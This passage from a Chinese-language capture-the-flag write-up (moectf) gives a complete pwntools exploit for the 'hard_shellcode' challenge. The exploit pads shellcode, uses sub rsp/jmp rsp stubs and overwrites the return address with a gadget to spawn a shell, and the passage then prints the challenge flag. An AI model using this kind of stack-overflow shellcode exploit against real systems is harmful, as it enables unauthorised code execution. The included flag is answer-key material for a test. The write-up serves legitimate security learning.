 故得exp：

```
from pwn import *

context.arch = 'amd64'

sc = asm(shellcraft.sh())
sub_rsp = asm('sub rsp, 64')
jmp_rsp = asm('jmp rsp')

gadget_addr = p64(0x4000ea)

payload = sc + b'A'*(64-len(sc)) + sub_rsp + jmp_rsp + b'A'*(8-len(sub_rsp)-len(jmp_rsp)) + gadget_addr

p = process('hard_shellcode')
p.sendline(payload)
p.interactive() 
```

向服务器发送payload，成功getsgell

![image.png](img/6bd74a71847ed3772c3dbca769645aa1.png)

得到flag：

```
moectf{Ni_HA0_q1ang_a!} 
```

## easycpp（已下线） - Use After Free
